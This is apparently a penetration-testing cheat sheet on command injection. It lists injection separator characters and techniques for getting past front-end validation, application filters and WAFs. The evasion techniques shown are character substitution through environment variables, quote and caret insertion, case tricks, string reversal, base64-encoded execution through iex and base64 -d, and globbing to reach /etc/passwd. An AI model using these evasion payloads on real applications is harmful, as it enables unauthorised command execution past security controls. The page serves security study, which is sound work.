



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Command Injection


**Command Injection** is a vulnerability that allows an attacker to execute arbitrary commands on a host operating system through a vulnerable application. This happens when the application passes unsafe user input to a system shell.


## Injection Characters

<table><thead><tr><th width="124">Character</th><th width="149">URL-Encoded</th><th>Executed Command</th></tr></thead><tbody><tr><td><code>;</code></td><td><code>%3b</code></td><td>Both</td></tr><tr><td><code>\n</code></td><td><code>%0a</code></td><td>Both</td></tr><tr><td><code>&#x26;</code></td><td><code>%26</code></td><td>Both (second output generally shown first)</td></tr><tr><td><code>|</code></td><td><code>%7c</code></td><td>Both (only second output is shown)</td></tr><tr><td><code>&#x26;&#x26;</code></td><td><code>%26%26</code></td><td>Both (only if first succeeds)</td></tr><tr><td><code>||</code></td><td><code>%7c%7c</code></td><td>Second (only if first fails)</td></tr><tr><td><code>``</code></td><td><code>%60%60</code></td><td>Both (Linux-only)</td></tr><tr><td><code>$()</code></td><td><code>%24%28%29</code></td><td>Both (Linux-only)</td></tr><tr><td><code>#</code></td><td><code>%23</code></td><td>Both</td></tr></tbody></table>

## Filters

### Front-End Validation

If the restrictions are only applied on the client-side (Figure 1), we can bypassed them by using a proxy and modifying the request before it reaches the server (Figure 2).

<figure><figcaption><p>Figure 1: Client-side restrictions block our injected command.</p></figcaption></figure>

<figure><figcaption><p>Figure 2: Bypassing front-end validation.</p></figcaption></figure>

### App Filters/WAFs

If an error message is displayed where the output should be (Figure 3), then the filter exists in the application itself, whereas if it is displayed on another page, it indicates the presence of a WAF.

<figure><figcaption><p>Figure 3: An application filter blocking our command injection attempt.</p></figcaption></figure>

We should first try to identify what is blocked. It could be a character (`;`), command (`id`), or both (`;id`). We can find out with some trial and error:

1. `127.0.0.1;` -> :x: (`;` is blocked)
2. Replacing `;` with `&` -> Works ✅&#x20;
3. `127.0.0.1&id` -> :x: (`id` is blocked)
4. Try methods below!

### Blacklisted Characters

#### Bash

`env` lists all environment variables.

| Blocked | Alternative(s)                                                                                          |
| ------: | ------------------------------------------------------------------------------------------------------- |
|     `+` | <p><code>%09</code> (tab)</p><p><code>${IFS}</code></p><p><code>{cmd,flag}</code> (brace expansion)</p> |
|     `/` | `${PATH:0:1}`                                                                                           |
|     `;` | `${LS_COLORS:10:1}`                                                                                     |
|     `:` | `${LS_COLORS:4:1}`                                                                                      |

#### CMD

`set` lists all environment variables.

| Blocked | Alternative(s)     |
| ------: | ------------------ |
|     `\` | `%HOMEPATH:~6,-4%` |

#### PowerShell

`Get-ChildItem Env:` lists all environment variables.

| Blocked | Alternative(s)     |
| ------: | ------------------ |
|     `\` | `$env:HOMEPATH[0]` |

### Character Shifting

We can shift the character by 1, so when we can pass the ASCII character before the one we need. We can get the ASCII table using `man ascii`. For instance if we need to use the `+` symbol, we would use the `*` that comes after it.

```bash
echo $(tr '!-}' '"-~'<<<*)
+
```

### Quotes

Single or double quotes can be used to obfuscate a command as they are ignored by both Bash and PowerShell. CMD only ignores double quotes. **The quote type cannot be mixed and must always be an even number**.

```bash
# original command
whoami
x7331
# using single quotes
who'a'mi
x7331
# using double quotes
wh"oa"mi
x7331
```

Linux based systems can also use other characters.

```bash
wh$@oami
x7331

wh\oami
x7331
```

In CMD the `^` symbol can also be used.

```
wh^oami
x7331
```

### Casing

In Windows commands are case-insensitive, so different combinations can be tried out.

```powershell
whOAMi
x7331
```

In Linux we need a different approach.

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
x7331
# if spaces are blocked
$({tr,"[A-Z]","[a-z]"}<<<"WhOaMi")
x7331
```

### Reversing

Linux.

```bash
echo 'whoami' | rev
imaohw
$(rev<<<'imaohw')
x7331
# in one line
$(rev<<<$(echo${IFS}'whoami'|rev))
x7331
```

Windows (PowerShell).

```powershell
# reverse command
"whoami"[-1..-20] -join ''
imaohw
# execute command
iex "$('imaohw'[-1..-20] -join '')"
x7331
```

### Encoding

Encoding the payload can be useful for simple pattern-matching evasion. For instance, regex patterns will have a hard time identifying bash commands in the encoded string. This is also useful if the server URL-encodes certain characters.

```bash
# encode the payload
echo "whoami" | base64
d2hvYW1pCg==
# inject the encoded payload using command substitution
$(echo d2hvYW1pCg== | base64 -d)
x7331
```

Windows.


```powershell
# encode the command
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
dwBoAG8AYQBtAGkA
# execute the command
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
x7331
```


### Globbing

Using wildcards (`?`, `*`, `[`, `]`, `!`) to partially or fully match file names or other file content. Globbing can be hepful in the case where applications/WAFs restrict the use of certain characters.

```bash
ls -l /etc/passwd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

ls -l /???/passwd
-rwsr-xr-x 1 root root 72344 Feb  4 20:28 /bin/passwd
-rw-r--r-- 1 root root  2225 Apr  5 15:01 /etc/passwd

ls -l /e??/passwd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

ls -l /e??/????wd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

ls -l /e??/{p????d,g???p}
-rw-r--r-- 1 root root  955 Apr  5 15:35 /etc/group
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd
```

### Automated Tools

There are also automated tools for enumerating CI attacks (both deprecated).










